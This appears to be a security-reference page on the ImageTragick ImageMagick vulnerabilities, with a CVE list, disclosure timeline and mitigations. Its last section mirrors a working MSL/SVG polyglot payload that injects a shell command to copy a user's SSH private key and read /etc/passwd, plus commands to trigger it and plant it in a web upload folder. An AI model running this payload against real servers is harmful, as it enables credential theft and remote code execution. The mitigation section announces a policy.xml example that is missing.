 # ImageTragick

ImageTragick or CVE-2016–3714 are  multiple vulnerabilities in [ImageMagick](https://www.imagemagick.org/). 
1. CVE-2016-3714 - Insufficient shell characters filtering leads to(potentially remote) code execution
2. CVE-2016-3718 - SSRF
3. CVE-2016-3715 - File deletion
4. CVE-2016-3716 - File moving
5. CVE-2016-3717 - Local file read (independently reported by original research author - [Stewie](https://hackerone.com/stewie))


[https://imagetragick.com](https://imagetragick.com/) states: *"There are multiple vulnerabilities in [ImageMagick](https://www.imagemagick.org/), a package commonly used by web services to process images. One of the vulnerabilities can lead to remote code execution (RCE) if you process user submitted images. The exploit for this vulnerability is being used in the wild. A number of image processing plugins depend on the ImageMagick library, including, but not limited to, PHP’s imagick, Ruby’s rmagick and paperclip, and nodejs’s imagemagick. If you use ImageMagick or an affected library, we recommend you mitigate the known vulnerabilities by doing at least one of these two things (but preferably both!):* ... see Mitigation section

Vulnerability Disclosure Timeline:
- April, 21 2016 - file read vulnerability report for one of My.Com services from https://hackerone.com/stewie received by Mail.Ru Security Team. Issue is reportedly known to ImageMagic team.
- April, 21 2016 - file read vulnerability patched by My.Com development team
- April, 28 2016 - code execution vulnerability in ImageMagick was found by Nikolay Ermishkin from Mail.Ru Security Team while researching original report
- April, 30 2016 - code execution vulnerability reported to ImageMagick development team
- April, 30 2016 - code execution vulnerability fixed by ImageMagick (incomplete fix)
- April, 30 2016 - fixed ImageMagic version 6.9.3-9 published (incomplete fix)
- May, 1 2016 - ImageMagic informed of the fix bypass
- May, 2 2016 - limited disclosure to 'distros' mailing list
- May, 3 2016 - public disclosure at https://imagetragick.com/

#### Official Mitigation

1. Verify that all image files begin with the expected ["magic bytes"](https://en.wikipedia.org/wiki/List_of_file_signatures) corresponding to the image file types you support before sending them to ImageMagick for processing. (see [FAQ](https://imagetragick.com/#FAQ) for more info)
2. Use a [policy file](https://www.imagemagick.org/script/resources.php) to disable the vulnerable ImageMagick coders. The global policy for ImageMagick is usually found in “/etc/ImageMagick”. The below policy.xml example will disable the coders EPHEMERAL, URL, MVG, and MSL.

#### MSL / Polyglot Attack

This section is a mirror from [0xsyr0/Awesome-Cybersecurity-Handbooks/ - 08_exploitation_tools.md](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/08_exploitation_tools.md)

> https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

`poc.svg`
```c
<image authenticate='ff" `echo $(cat /home/<USERNAME>/.ssh/id_rsa)> /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
Execute payload:
```bash
convert poc.svg poc.png
cp /tmp/poc.svg /var/www/html/convert_images/
```

## References

[https://imagetragick.com](https://imagetragick.com/)
[0xsyr0/Awesome-Cybersecurity-Handbooks/ - 08_exploitation_tools.md](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/08_exploitation_tools.md)
